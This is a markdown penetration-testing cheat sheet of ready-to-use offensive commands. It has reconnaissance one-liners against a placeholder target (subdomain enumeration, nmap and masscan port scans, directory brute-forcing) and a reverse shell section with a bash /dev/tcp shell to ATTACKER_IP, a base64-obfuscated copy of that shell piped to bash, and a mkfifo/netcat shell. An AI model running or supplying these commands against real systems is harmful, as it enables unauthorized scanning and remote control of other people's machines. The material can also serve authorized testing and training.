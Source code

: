 # 📋 Common Commands Cheat Sheet

> **Original Technical Content**: Sekiya
> **Compiled and Summarized by**: Tamas

## 🔍 Reconnaissance Commands

### Subdomain Enumeration
```bash
# Subfinder
subfinder -d target.com -silent

# Amass
amass enum -passive -d target.com

# Certificate Transparency
curl -s "https://crt.sh/?q=%25.target.com&output=json" | jq -r '.[].name_value' | sort -u
```

### Port Scanning
```bash
# Nmap quick scan
nmap -F target.com

# Nmap service detection
nmap -sV -sC target.com

# Masscan fast scan
masscan -p1-65535 target.com --rate=1000
```

### Web Enumeration
```bash
# Directory discovery
dirsearch -u https://target.com -e php,html,js

# Technology detection
whatweb target.com

# HTTP probe
httpx -l targets.txt -title -status-code
```

## 🔄 Reverse Shell Commands

### Bash Reverse Shells
```bash
# Basic bash reverse shell
bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1

# Base64 encoded
echo "YmFzaCAtaSA+JiAvZGV2L3RjcC9BVFRBQ0tFUl9JUC9QT1JUIDAmMQ==" | base64 -d | bash

# Netcat reverse shell
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc ATTACKER_IP PORT > /tmp/f
```
